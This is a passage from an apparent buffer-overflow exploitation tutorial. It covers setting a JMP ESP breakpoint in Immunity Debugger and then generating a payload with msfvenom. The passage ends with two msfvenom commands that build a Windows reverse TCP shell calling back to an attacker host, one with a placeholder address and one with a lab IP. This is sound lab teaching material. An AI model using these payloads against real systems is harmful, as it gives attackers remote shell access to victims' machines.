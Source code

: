 * Save the file&#x20;
* Go back to Immunity
* Copy the address you are using&#x20;

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

* Select the circled button and paste in the value and hit enter
* Right-click JMP ESP > Breakpoint > Toggle
* Run the exploit again
* You will notice that a breakpoint was triggered upon execution
* <mark style="color:yellow;">NOTE: If this is not behaving correctly, restart the program and run through the steps once more</mark>

## Generate Payload

We will utilize msfvenom

* Be sure to utilize the correct architecture (Windows or Linux depending on your target)
* Use your VPN IP address for the LHOST
* Utilize the bad chars for EXITFUNC

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.111.208 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```


